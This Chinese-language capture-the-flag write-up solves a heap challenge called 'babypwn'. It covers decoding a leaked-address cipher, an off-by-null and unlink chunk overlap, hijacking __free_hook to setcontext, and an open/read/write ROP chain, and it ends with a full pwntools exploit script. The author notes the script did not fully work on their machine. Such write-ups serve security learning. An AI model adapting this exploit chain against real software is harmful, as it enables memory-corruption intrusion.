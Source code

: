 这道题增加了沙箱机制，通过seccomp-tools可以轻松获取沙箱的具体内容。

![](https://img-blog.csdnimg.cn/7a4279ec88e74e9cb4d47dca9c3a0456.png)
其中的重点就是禁用了execve系统调用，无法直接通过one_gadget、system等直接getshell。这种情况下最为常用的利用方式就是set_context函数，具体如何利用，往下看。

本题的逆向分析很简单，注意bss中结构体的识别：前8字节是地址，后8字节是大小。在show函数中发现了一个简单的加密函数：

![](https://img-blog.csdnimg.cn/d9ef1b3c1668495bb168ed3f51841a9c.png)
其每一轮的计算如下图所示，红色部分是因为溢出而无法计算的部分，每一轮的计算结果就相当于是所有黄色部分对应位异或的结果。
![](https://img-blog.csdnimg.cn/f14dc06b21fd48248692237b77a64de6.png)
那么这个函数应该如何解密呢？观察到每一轮的计算又可以分为3小轮，最后一轮是某个值与自身左移13位的异或。第二轮是另外一个值与自身右移17位的异或得到第三轮的初始值。第一轮是输入与输入自身左移5位的异或得到第二轮的初始值。如此设计解密算法也就不难了，相信了解一些算法的读者都能编写脚本。解密函数如下：

```python
def get_bits(value, start, end):
    return (value >> start) & ((1 << (end - start)) - 1)


def decrypt(value):
    for i in range(2):
        low13 = get_bits(value, 0, 13)
        mid13 = get_bits(value, 13, 26)
        mid13 ^= low13
        high6 = get_bits(value, 26, 32)
        high6 ^= get_bits(mid13, 0, 6)
        value = low13 + (mid13 << 13) + (high6 << 26)

        high17 = get_bits(value, 15, 32)
        low15 = get_bits(value, 0, 15)
        low15 ^= get_bits(high17, 2, 17)
        value = low15 + (high17 << 15)

        first5 = get_bits(value, 0, 5)
        second5 = get_bits(value, 5, 10)
        second5 ^= first5
        third5 = get_bits(value, 10, 15)
        third5 ^= second5
        fourth5 = get_bits(value, 15, 20)
        fourth5 ^= third5
        fifth5 = get_bits(value, 20, 25)
        fifth5 ^= fourth5
        sixth5 = get_bits(value, 25, 30)
        sixth5 ^= fifth5
        last2 = get_bits(value, 30, 32)
        last2 ^= get_bits(sixth5, 0, 2)
        value = first5 + (second5 << 5) + (third5 << 10) + (fourth5 << 15) + \
            (fifth5 << 20) + (sixth5 << 25) + (last2 << 30)

    return value
```

通过show函数，我们能够获取到堆块的地址。不过需要注意的是，show函数加密的并非堆块自身的地址，而是堆块前8字节的值。通过调试我们可以发现，在程序初始化时调用的seccomp系列函数会申请一些堆块，我们通过申请到这些堆块有可能使得堆块的前8字节是一个堆块地址，以此来获取堆区地址。

本题的libc环境是2.27版本，有机会改写钩子到setcontext函数【**插一句：在笔者的2.31版本libc中，setcontext函数的栈迁移指令从``mov rsp, [rdi+0xA0]``被改成了``mov rsp,[rdx+0xA0]``，这使得本题在2.31环境下无法利用，因为在执行到这里的时候无法控制rdx的值**】。自然而然地，我们容易想到使用unlink堆块重叠的利用方式。在chunk中写一个假chunk，在假chunk的prev_size写入这个chunk的地址，然后将fd和bk指针写到合适的位置，就能够触发unlink。和同年的easy_diary相比，利用难度还更低些。

![](https://img-blog.csdnimg.cn/bbadd28a80ff448791bfc3028b498852.png)
这里需要注意一下edit函数中的一个看似奇怪的函数。这个函数在read之后调用，会将第一个出现的'\x11'字符替换为0x0。乍一看，这个字符并不是字符串的结束符，但转念一想，不难发现这是出题人在为我们创造off by null的条件：'\x11'很有可能是某个chunk的size的最低1字节。可以通过这个特性修改chunk的大小和prev_inuse位。由于chunk的大小被修改了，因此在这个chunk的最后面还需要写上一个有效的size值，最低位为1，以绕过检查。

在成功unlink之后，就可以利用堆块重叠修改tcache chunk的fd指针到__free_hook。将其改写到setcontext内部即可实现栈迁移。然后构造好ROP链，打开文件、读文件、写数据。在笔者的机器上，通过调试将rdx改为与rdi的值相等实现栈迁移，但不知何故打开flag文件总是失败。

exp:（基于20.04，且需要调试修改rdx的值）
```python
from pwn import *

context(arch='amd64', log_level='debug')

io = process('./babypwn')
# io = process(['../../../../ld/ld-2.27.so', './babypwn'], env={"LD_PRELOAD": "./libc.so.6"})
libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
# libc = ELF('./libc.so.6')

def add(size):
    io.sendlineafter(b'>>> ', b'1')
    io.sendlineafter(b'size:', str(size).encode())


def delete(index):
    io.sendlineafter(b'>>> ', b'2')
    io.sendlineafter(b'index:', str(index).encode())


def edit(index, content):
    io.sendlineafter(b'>>> ', b'3')
    io.sendlineafter(b'index:', str(index).encode())
    io.sendafter(b'content:', content)


def show(index):
    io.sendlineafter(b'>>> ', b'4')
    io.sendlineafter(b'index:\n', str(index).encode())
    lodword = int(io.recvuntil(b'\n', drop=True).decode(), 16)
    lodword = decrypt(lodword)
    hidword = int(io.recvuntil(b'\n', drop=True).decode(), 16)
    hidword = decrypt(hidword)
    return lodword + (hidword << 32)

def get_bits(value, start, end):
    return (value >> start) & ((1 << (end - start)) - 1)


def decrypt(value):
    for i in range(2):
        low13 = get_bits(value, 0, 13)
        mid13 = get_bits(value, 13, 26)
        mid13 ^= low13
        high6 = get_bits(value, 26, 32)
        high6 ^= get_bits(mid13, 0, 6)
        value = low13 + (mid13 << 13) + (high6 << 26)

        high17 = get_bits(value, 15, 32)
        low15 = get_bits(value, 0, 15)
        low15 ^= get_bits(high17, 2, 17)
        value = low15 + (high17 << 15)

        first5 = get_bits(value, 0, 5)
        second5 = get_bits(value, 5, 10)
        second5 ^= first5
        third5 = get_bits(value, 10, 15)
        third5 ^= second5
        fourth5 = get_bits(value, 15, 20)
        fourth5 ^= third5
        fifth5 = get_bits(value, 20, 25)
        fifth5 ^= fourth5
        sixth5 = get_bits(value, 25, 30)
        sixth5 ^= fifth5
        last2 = get_bits(value, 30, 32)
        last2 ^= get_bits(sixth5, 0, 2)
        value = first5 + (second5 << 5) + (third5 << 10) + (fourth5 << 15) + \
            (fifth5 << 20) + (sixth5 << 25) + (last2 << 30)
    return value

add(100)                            # chunk 0, used for leaking address
chunk0_addr = show(0)
print(hex(chunk0_addr))
add(0x100)                          # chunk #1
for i in range(7):
    add(0xF0)                       # chunk #2~8
chunk1_addr = chunk0_addr + 0x400

payload = p64(chunk1_addr + 0x10)
payload += p64(0x810 + 0x30 - 0x10)
payload += p64(chunk1_addr - 0x8)
payload += p64(chunk1_addr)
payload += p64(0)
edit(1, payload)

add(0x28)                           # chunk #9
add(0x100)                          # chunk #10
add(0x20)                           # chunk #11, goalkeeper
edit(9, cyclic(0x28))               # this can change the chunk #9's size from 0x511 to 0x500
edit(9, cyclic(0x20) + p64(0x810 + 0x30 - 0x10))        # write correct prev_size
edit(10, cyclic(0xF0) + p64(0) + p64(0x41))

for i in range(7):
    delete(8 - i)                   # delete chunk #2~8
delete(10)

for i in range(2):
    add(0xF0)                       # recover chunk #1, 2
add(0xF0 + 0x100)                   # recover chunk #3
main_arena = show(3) - 96
print(hex(main_arena))
__malloc_hook = main_arena - 0x10
base = __malloc_hook - libc.symbols['__malloc_hook']
__free_hook = base + libc.symbols['__free_hook']
setcontext = base + libc.symbols['setcontext']
openfile = base + libc.symbols['open']
readfile = base + libc.symbols['read']
writefile = base + libc.symbols['write']
poprdi_ret = base + 0x23B6A
poprsi_ret = base + 0x2601F
poprdx_ret = base + 0x142C92
addrsp0x18_ret = base + 0x349ea

add(0xF0 + 0x100)                   # chunk #5
edit(5, cyclic(0xF0) + p64(0) + p64(0x101) + p64(__free_hook))
add(0xF0)                           # chunk #6
add(0xF0)                           # chunk #7, to __free_hook
edit(7, p64(setcontext + 0x3D))     # change __free_hook to setcontext + 0x3D, ready for stack pivoting

add(0xF0 + 0x100)                   # chunk #8
chunk8_addr = chunk1_addr + 0x410

ROP = b'/flag'.ljust(0x30, b'\x00')     # 0x0
ROP += p64(chunk8_addr + 0x10)          # 0x30
ROP += p64(poprsi_ret)                  # 0x38
ROP += p64(2)                           # 0x40
ROP += p64(openfile)                    # 0x48
ROP += p64(poprdi_ret)                  # 0x50
ROP += p64(3)                           # 0x58
ROP += p64(poprsi_ret)                  # 0x60
ROP += p64(chunk8_addr + 0xF0)          # 0x68
ROP += p64(poprdx_ret)                  # 0x70
ROP += p64(0x30)                        # 0x78
ROP += p64(readfile)                    # 0x80
ROP += p64(poprdi_ret)                  # 0x88
ROP += p64(1)                           # 0x90
ROP += p64(addrsp0x18_ret)              # 0x98
ROP += p64(chunk8_addr + 0x40)          # 0xA0
ROP += p64(poprdi_ret)                  # 0xA8
ROP += p64(0xdeadbeef)                  # 0xB0
ROP += p64(poprsi_ret)                  # 0xB8
ROP += p64(chunk8_addr + 0xF0)          # 0xC0
ROP += p64(poprdx_ret)                  # 0xC8
ROP += p64(0x30)                        # 0xD0
ROP += p64(writefile)                   # 0xD8
edit(8, ROP)
gdb.attach(io)
time.sleep(5)
delete(8)

io.interactive()
```
